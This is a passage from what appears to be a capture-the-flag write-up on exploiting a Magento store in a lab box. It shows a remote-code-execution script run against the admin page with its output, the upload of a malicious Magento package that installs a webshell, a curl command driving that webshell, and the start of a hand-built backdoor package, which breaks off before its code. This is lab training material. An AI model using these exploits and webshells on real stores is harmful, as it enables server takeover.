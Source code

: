

`mechanize` is a scriptable browser, and it's complaining that there's
not login form with a password field. That's because it's trying to log
into the base of the site. I'll run it again, this time with the admin
login page:



    root@kali# python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
    Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux



### RCE #2 - Magento Package

When the box was released, there was a second way to get RCE via
uploading a Magento package. It seems this method has been patched in
the current instance of the box, as `/download` is not longer there.
I'll show how I did it anyway, but you will not be able to replicate
this part today.

#### From GitHub

[This GitHub](https://github.com/lavalamp-/LavaMagentoBD) has a template
for a malicious Magento package. I'll download lavalamp_magento_bd.tgz,
and upload it via http://10.10.10.140/downloader/:

![](/img/1557662974804.png)

Now I can use the webshell it installs:



    root@kali# curl -d 'c=id' http://10.10.10.140/index.php/lavalamp/index
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



#### From Scratch

[This
post](https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.md)
gives a good walkthrough for creating a malicious Magento package. I'll
create two files in the following structure:



    root@kali# tree .
    .
    ├── errors
    │   └── cmd.php
    └── package.xml

    1 directory, 2 files



`cmd.php`:


